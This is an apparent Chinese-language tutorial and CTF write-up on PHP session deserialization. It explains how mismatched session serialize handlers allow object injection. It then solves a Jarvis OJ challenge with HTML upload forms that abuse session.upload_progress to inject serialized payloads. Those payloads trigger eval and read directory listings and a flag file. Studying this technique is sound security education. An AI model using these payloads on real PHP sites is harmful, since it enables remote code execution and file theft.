

## session反序列化

```php
<?php
    error_reporting(0);
    ini_set('session.serialize_handler','php');//这里换不同的存储引擎
    session_start();
    $_SESSION['username']="asdf";
?>
```

`username|s:4:"asdf";`(键名+竖线+经过`serialize()`函数序列处理的值)

```php
<?php
    error_reporting(0);
    ini_set('session.serialize_handler','php_serialize');//这里换不同的存储引擎
    session_start();
    $_SESSION['username']="asdf";
?>
```

`a:1:{s:8:"username";s:4:"asdf";}`(经过`serialize()`函数序列化处理的数组)

```php
<?php
    error_reporting(0);
    ini_set('session.serialize_handler','php_binary');//这里换不同的存储引擎
    session_start();
    $_SESSION['username']="asdf";
?>
```


`usernames:4:"asdf";`(**键名的长度**对应的ASCII字符(BS的ASCII为8)+键名+经过`serialize()`函数序列化处理的值)

**当序列化的引擎和反序列化的引擎不一致时,就可以利用引擎之间的差异产生序列化注入漏洞**

[https://www.php.net/session_start/](https://www.php.net/session_start/)

>当会话自动开始或者通过session_start()手动开始的时候，PHP内部会调用会话管理器的open和read回调函数。会话管理器可能是PHP默认的，也可能是扩展提供的（SQLite或者Memcached扩展），也可能是通过session_set_save_handler()设定的用户自定义会话管理器。通过read回调函数返回的现有会话数据（使用特殊的序列化格式存储），PHP 会**自动反序列化数据并且填充$_SESSION超级全局变量**

```php
<?php
//1.php
error_reporting(0);
ini_set('session.serialize_handler', 'php_serialize');//使用php_serialize引擎存储
session_start();
$_SESSION['username'] = $_GET['user'];
var_dump($_SESSION);
?>
```

```php
<?php
//2.php
error_reporting(0);
ini_set('session.serialize_handler', 'php');//使用php引擎存储
session_start();

class user
{
    var $name = "zhangsan";

    public function __destruct()
    {
        echo $this->name;
    }
}
?>
```

对于`php_serialize`引擎来说`|`是一个普通字符,但对于`php`引擎来说`|`是键名与序列化值的分隔符,从而在解析的时候造成了歧义,导致其在解析Session文件时直接对`|`后的值进行反序列化处理

对`1.php`传入`?user=|O:4:"user":1:{s:4:"name";s:4:"asdf";}`此时的`sess`文件为`a:1:{s:8:"username";s:38:"|O:4:"user":1:{s:4:"name";s:4:"asdf";}";}`

调用`2.php`,`php`引擎将`|`作为分隔符处理,前半部分`a:1:{s:8:"username";s:38:"`被`php`引擎作为Session的键值处理,后半部分`O:4:"user":1:{s:4:"name";s:4:"asdf";}";}`被Session自动反序列化,从而调用2.php中的user类

---

可能存在无法直接对Session赋值的情况

[https://www.php.net/manual/zh/session.upload-progress.php](https://www.php.net/manual/zh/session.upload-progress.php)

>当`session.upload_progress.enabled`的INI选项开启时，PHP能够在每一个文件上传时监测上传进度。这个信息对上传请求自身并没有什么帮助，但在文件上传时应用可以发送一个POST请求到终端（例如通过XHR）来检查这个状态
>
>当一个上传在处理中，同时**POST一个与INI中设置的session.upload_progress.name同名变量**时，上传进度可以在`$_SESSION`中获得。当PHP检测到这种POST请求时，它会在`$_SESSION`中添加一组数据,索引是`session.upload_progress.prefix`与`session.upload_progress.name`连接在一起的值。

[http://web.jarvisoj.com:32784/](http://web.jarvisoj.com:32784/)

```php
<?php
//A webshell is wait for you
ini_set('session.serialize_handler', 'php');
session_start();
class OowoO
{
    public $mdzz;
    function __construct()
    {
        $this->mdzz = 'phpinfo();';
    }
    
    function __destruct()
    {
        eval($this->mdzz);
    }
}
if(isset($_GET['phpinfo']))
{
    $m = new OowoO();
}
else
{
    highlight_string(file_get_contents('index.php'));
}
?>
```

|Directive|Local Value|Master Value|
|:---:|:---:|:---:|
|session.serialize_handler|**php**|**php_serialize**|
|session.upload_progress.cleanup|Off|Off|
|session.upload_progress.enabled|On|On|
|session.upload_progress.freq|1%|1%|
|session.upload_progress.min_freq|1|1|
|session.upload_progress.name|PHP_SESSION_UPLOAD_PROGRESS|PHP_SESSION_UPLOAD_PROGRESS|
|session.upload_progress.prefix|upload_progress_|upload_progress_|

引擎存在差异,存在反序列化漏洞,`session.upload_progress.enabled==On`,可以进行文件上传

```html
<!DOCTYPE html>
<html>
<body>
    <form action="http://web.jarvisoj.com:32784/index.php" method="POST" enctype="multipart/form-data">
        <input type="hidden" name="PHP_SESSION_UPLOAD_PROGRESS" value='|O:5:"OowoO":1:{s:4:"mdzz";s:36:"print_r(scandir(dirname(__FILE__)));";}'/>
        <input type="file" name="file"/>
        <input type="submit"/>
    </form>
</body>
</html>
```

随便提交一个文件得到`Array ( [0] => . [1] => .. [2] => Here_1s_7he_fl4g_buT_You_Cannot_see.php [3] => index.php [4] => phpinfo.php )`


已知`DOCUMENT_ROOT`为`/opt/lampp/htdocs`,通过`file_get_contents`对flag进行读取

```php
<!DOCTYPE html>
<html>
<body>
    <form action="http://web.jarvisoj.com:32784/index.php" method="POST" enctype="multipart/form-data">
        <input type="hidden" name="PHP_SESSION_UPLOAD_PROGRESS" value='|O:5:"OowoO":1:{s:4:"mdzz";s:88:"print_r(file_get_contents("/opt/lampp/htdocs/Here_1s_7he_fl4g_buT_You_Cannot_see.php"));";}'/>
        <input type="file" name="file"/>
        <input type="submit"/>
    </form>
</body>
</html>
```


